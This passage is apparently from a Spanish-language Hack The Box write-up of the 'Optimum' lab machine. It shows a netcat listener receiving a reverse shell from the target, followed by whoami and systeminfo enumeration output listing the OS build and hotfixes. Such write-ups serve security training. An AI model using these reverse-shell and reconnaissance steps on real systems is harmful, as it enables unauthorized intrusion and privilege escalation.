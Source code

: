 ```

!!!! --- Press Enter After Connection Established --- !!!!


listening on [any] 4444 ...
connect to [10.10.16.16] from (UNKNOWN) [10.129.192.202] 49158

PS C:\Users\kostas\Desktop> whoami
optimum\kostas
```

`Listamos` la `información` del `sistema`

```
PS C:\Users\kostas\Desktop> systeminfo

Host Name:                 OPTIMUM
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     18/3/2017, 1:51:36 ??
System Boot Time:          30/7/2024, 10:53:53 ??
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              1 Processor(s) Installed.
                           [01]: AMD64 Family 25 Model 1 Stepping 1 AuthenticAMD ~2595 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/11/2020
Windows Directory:         C:\Windows
System Directory:          C:\Windows\system32
Boot Device:               \Device\HarddiskVolume1
System Locale:             el;Greek
Input Locale:              en-us;English (United States)
Time Zone:                 (UTC+02:00) Athens, Bucharest
Total Physical Memory:     4.095 MB
Available Physical Memory: 3.251 MB
Virtual Memory: Max Size:  5.503 MB
Virtual Memory: Available: 4.685 MB
Virtual Memory: In Use:    818 MB
Page File Location(s):     C:\pagefile.sys
Domain:                    HTB
Logon Server:              \\OPTIMUM
Hotfix(s):                 31 Hotfix(s) Installed.
                           [01]: KB2959936
                           [02]: KB2896496
                           [03]: KB2919355
                           [04]: KB2920189
                           [05]: KB2928120
                           [06]: KB2931358
                           [07]: KB2931366
                           [08]: KB2933826
                           [09]: KB2938772
                           [10]: KB2949621
                           [11]: KB2954879
                           [12]: KB2958262
                           [13]: KB2958263
                           [14]: KB2961072
                           [15]: KB2965500
                           [16]: KB2966407
```